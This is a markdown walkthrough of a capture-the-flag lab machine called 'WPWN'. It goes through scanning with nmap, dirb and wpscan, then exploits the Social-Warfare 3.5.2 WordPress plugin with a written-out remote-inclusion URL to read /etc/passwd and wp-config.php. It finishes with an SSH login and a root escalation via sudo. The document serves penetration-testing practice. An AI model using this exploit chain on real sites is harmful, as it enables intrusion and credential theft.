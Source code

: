 *WPWN*  

**RECON**
---
**Ip Search**  
Our IP leads us to this blank page lets move to scanning  
![image6](https://user-images.githubusercontent.com/66635295/158526173-aa39b52e-d9c3-4ac0-8865-9792b5497a4f.png)
**Nmap Scan**  
[nmap -sV -sC 192.168.55.123]  
-version -safescan
Port 22, and 80 are open  
![image3](https://user-images.githubusercontent.com/66635295/158744691-d688bd5d-81d7-4af4-b510-a2e1b527177f.png)  
**Scan for hidden directories (dirbuster)**   
[dirb http:// 192.168.55.123]  
![image8](https://user-images.githubusercontent.com/66635295/158747642-86dbd602-e37e-499f-b37f-430b1b4870e5.png)  
**WordPress Page**  
![image7](https://user-images.githubusercontent.com/66635295/158747979-04e74459-23fc-4d85-add5-2ddb83e22836.png)  
**Scan for wordpress vulnerabilities**   
[wpscan --url http:// 192.168.55.123/wordpress/]
![image1](https://user-images.githubusercontent.com/66635295/158748297-d989c1f4-acdc-4e01-bef1-9e606e4ed10c.png)  
**Scan reveals outdated plugin named Social-Warfare 3.5.2**  
This Vulnerability allows commands to run for obtaining user Credentials  
![image15](https://user-images.githubusercontent.com/66635295/158748468-74c92d41-881e-4414-9070-43a2bb30d4f1.png)  
**Payload File**    
Shows passwd file contents  
![image5](https://user-images.githubusercontent.com/66635295/158751852-ada62fb4-56f6-4e2f-ae20-68cd67dd5b81.png)

**Python Simple server**  
[python3 -m http.server 80]  
![image14](https://user-images.githubusercontent.com/66635295/158752244-0f7a0d8f-8f83-41cd-b61b-d747a62290ce.png)




**ENUMURATION**
---
**Visit Website**  
[http:// 192.168.55.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://localhost/payload.txt]    
User Takis is revealed 
![image10](https://user-images.githubusercontent.com/66635295/158752455-4b285dee-5cd6-4449-a4f3-9d179e54d6a2.png)  
**Config.php**  
Word press config.php holds important info. The payload can be used to check for it  
![image9](https://user-images.githubusercontent.com/66635295/158752587-5af73a09-806d-4ada-bb96-16bcc3e5bd9e.png)
**Visit Website**  
Viewing the source reveals a password for a SQL database  
![image11](https://user-images.githubusercontent.com/66635295/158753420-c9d6f360-973a-4eb9-b88d-afbf3f213196.png)

**Privilege Escalation**
---
**Server SSH**  
[sudo ssh takis@192.168.55.123]  
![image4](https://user-images.githubusercontent.com/66635295/158753672-415311f6-028b-4345-8a98-cfcf7a3a7ed9.png)  
**User Flag**      
local.txt  
![image13](https://user-images.githubusercontent.com/66635295/158753764-e78a55f8-f9fa-4179-8dc4-fe9691bcf19c.png)     
**Check User Privileges**    
![image12](https://user-images.githubusercontent.com/66635295/158753967-f2d267fc-93d9-442f-94c4-b7463bf2db7c.png)    
**Root Escalation**
---  
**Root Flag**
[sudo su]  
![image2](https://user-images.githubusercontent.com/66635295/158754479-c0661600-777c-40ca-bd02-90885402a584.png)

